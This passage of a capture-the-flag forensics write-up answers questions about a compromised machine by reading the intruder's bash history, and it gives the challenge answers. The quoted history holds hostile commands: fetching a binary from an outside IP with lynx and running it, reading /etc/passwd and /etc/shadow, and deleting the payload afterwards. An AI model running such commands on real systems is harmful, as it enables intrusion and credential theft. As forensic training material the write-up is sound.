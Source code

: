 
__Answer: 12432__

--

__What is the IP range the hacker scanned (use the exact argument)?__

Well "scanned" is the keyword here, so let's look for [Nmap](https://nmap.org/book/man-briefoptions.html)!

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

__Answer: 192.168.2.1/32__

--

__What is the first file the hacker modified the contents of?__

We simply have to look for a file editor that is being used. In this one it seems [vim](https://en.wikipedia.org/wiki/Vim_(text_editor)) is being used. Try not to get confused with the first few lines! Look past the [whoami](https://en.wikipedia.org/wiki/Whoami) command that is being used by the hacker after the certain "breach".
